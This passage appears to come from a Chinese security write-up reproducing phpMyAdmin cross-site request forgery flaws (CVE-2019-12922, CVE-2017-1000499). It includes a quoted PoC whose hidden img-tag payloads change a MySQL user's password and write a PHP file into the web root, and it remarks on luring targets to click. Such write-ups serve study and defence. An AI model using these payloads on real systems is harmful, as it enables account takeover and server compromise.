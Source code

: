 ![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153933405-797280621.png)

参数id对应的是第几个服务器。构造恶意链接。

当然实战中的链接怎么吸引人让目标去点击还得靠自己去构造。

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153938652-2011200675.png)

页面显示404，但img的src会去请求一次。此时创建了两个服务器

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153942587-1621023840.png)

点击我们构造的恶意链接时，显示刚才构造的页面结果

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153947778-376804677.png)

此时再去查看服务器

![img](https://img2020.cnblogs.com/blog/1605154/202010/1605154-20201014153951834-327482848.png)

已经被删除，攻击成功。

[CVE-2019-12922 phpMyAdmin 4.9.0.1-跨站请求伪造漏洞复现](https://cloud.tencent.com/developer/article/1517920)



## 3.8 CVE-2017-1000499 跨站请求伪造

影响范围：

```ruby
phpMyAdmin version
	Phpmyadmin:4.7.6  
	Phpmyadmin:4.7.0:Beta1  
	Phpmyadmin:4.7.0:Rc1  
	Phpmyadmin:4.7.5  
	Phpmyadmin:4.7.4  
```

POC如下：

```perl
# Exploit Title: phpMyAdmin 4.7.x - Cross-Site Request Forgery
# Date: 2018-08-28
# Exploit Author: VulnSpy
# Vendor Homepage: https://www.phpmyadmin.net/
# Software Link: https://www.phpmyadmin.net/downloads/
# Version: Versions 4.7.x (prior to 4.7.7)
# Tested on: php7 mysql5
# CVE: CVE-2017-1000499

# Exploit CSRF - Modifying the password of current user

<p>Hello World</p>
<img src="
http://7f366ec1afc5832757a402b5355132d0.vsplate.me/sql.php?db=mysql&table=user&sql_query=SET%20password
%20=%20PASSWORD(%27www.vulnspy.com%27)" style="display:none;" />

# Exploit CSRF - Arbitrary File Write

<p>Hello World</p>
<img src="
http://7f366ec1afc5832757a402b5355132d0.vsplate.me/sql.php?db=mysql&table=user&sql_query=select
'<?php phpinfo();?>' into outfile '/var/www/html/test.php';"
style="display:none;" />

# Exploit CSRF - Data Retrieval over DNS
```